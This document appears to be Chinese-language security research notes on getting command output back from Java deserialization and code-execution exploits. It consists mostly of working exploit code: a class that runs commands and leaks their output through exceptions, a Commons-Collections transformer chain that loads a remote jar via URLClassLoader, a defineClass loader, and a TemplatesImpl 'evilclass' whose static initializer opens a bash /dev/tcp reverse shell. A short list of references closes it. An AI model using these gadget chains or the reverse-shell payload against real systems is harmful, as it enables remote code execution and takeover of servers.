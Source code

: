# java回显

>一般web服务是想办法获得response对象，可以参考[2021RCTF ezshell](https://github.com/Firebasky/ctf-Challenge/tree/main/RCTF-2021-EZshell)


### URLClassLoader抛出异常

```java
package exploit.firebasky;

import java.io.BufferedInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;

public class ErrorBaseExec
{
    public ErrorBaseExec(String cmd) throws Exception{
        do_exec(cmd);
    }

    public static byte[] readBytes(InputStream in)
            throws IOException
    {
        BufferedInputStream bufin = new BufferedInputStream(in);
        int buffSize = 1024;
        ByteArrayOutputStream out = new ByteArrayOutputStream(buffSize);
        byte[] temp = new byte[buffSize];
        int size = 0;
        while ((size = bufin.read(temp)) != -1) {
            out.write(temp, 0, size);
        }
        bufin.close();

        byte[] content = out.toByteArray();

        return content;
    }

    public static void do_exec(String cmd)
            throws Exception
    {
        Process p = Runtime.getRuntime().exec(cmd);
        byte[] stderr = readBytes(p.getErrorStream());
        byte[] stdout = readBytes(p.getInputStream());
        int exitValue = p.waitFor();
        if (exitValue == 0) {
            throw new Exception("-----------------\r\n" + new String(stdout) + "-----------------\r\n");
        }
        throw new Exception("-----------------\r\n" + new String(stderr) + "-----------------\r\n");
    }

    public static void main(String[] args)
            throws Exception
    {
        do_exec(args[0]);
    }
}
```
编译成jar之后可以封装到cc利用链组件中
```java
public static Transformer[] EchoCC() throws Exception  {
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(URLClassLoader.class),
            new InvokerTransformer("getConstructor",
                new Class[]{Class[].class},
                new Object[]{new Class[]{URL[].class}}),
            new InvokerTransformer("newInstance",
                new Class[]{Object[].class},
                new Object[]{new Object[]{new URL[]{new URL("http://127.0.0.1:8099/ErrorBaseExec.jar")}}}),
            new InvokerTransformer("loadClass",
                new Class[]{String.class},
                new Object[]{"exploit.firebasky.ErrorBaseExec"}),
            new InvokerTransformer("getConstructor",
                new Class[]{Class[].class},
                new Object[]{new Class[]{String.class}}),
            new InvokerTransformer("newInstance",
                new Class[]{Object[].class},
                new Object[]{new String[]{"ipconfig"}})
        };
        return transformers;
    }
```
### defineClass
其实就是通过ClassLoader去执行(反射)我们自定义类的字节码。

```java
public static String FiletoBytes(String filename) throws Exception{
        String buf = null;
        File file = new File(filename);
        FileInputStream fis = null;
        try {
            fis = new FileInputStream(file);
            int size = fis.available();
            byte[] bytes = new byte[size];
            fis.read(bytes);
            buf = Arrays.toString(bytes);
            fis.close();
            return buf;
        } catch (FileNotFoundException e) {
            e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        }
        return buf;
    }
    
@Override
    protected Class<?> findClass(String name) throws ClassNotFoundException {
        if (name == myClassName) {
            System.out.println("加载" + name + "类");
            return defineClass(myClassName, bs, 0, bs.length);
        }
        return super.findClass(name);
    }    
```

### 中间件回显
由于没有是研究tomcat等容器的回显。能力有限。


>中间件而言多数重写了thread类，在thread中保存了req和resp，可以通过获取当前线程，在resp中写入回显结果



参考：https://l3yx.github.io/2020/03/31/Java-Web%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%9B%9E%E6%98%BE%E6%80%BB%E7%BB%93/

直接用项目的代码。

在利用tempimpl创建类的时候可以使用如下代码
```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;

public class evilclass extends AbstractTranslet  {
    static {
        try{
            Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/ip/port;cat <&5 | while read line; do $line 2>&5 >&5; done"});
        }catch (IOException e){
            try{
                Runtime.getRuntime().exec(new String[]{"cmd", "/c", "calc"});
            }catch (IOException ee){
            }
        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```



>参考：
>
>[Java 反序列化回显的多种姿势](https://www.joyk.com/dig/detail/1624894461629758)
>
>[Java Web代码执行漏洞回显总结](https://l3yx.github.io/2020/03/31/Java-Web%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%9B%9E%E6%98%BE%E6%80%BB%E7%BB%93/)
>
>[通杀漏洞利用回显方法-linux平台](https://www.00theway.org/2020/01/17/java-god-s-eye/)
>
>[linux下java反序列化通杀回显方法的低配版实现](https://xz.aliyun.com/t/7307)
> 
>[Tomcat中一种半通用回显方法](https://xz.aliyun.com/t/7348)     
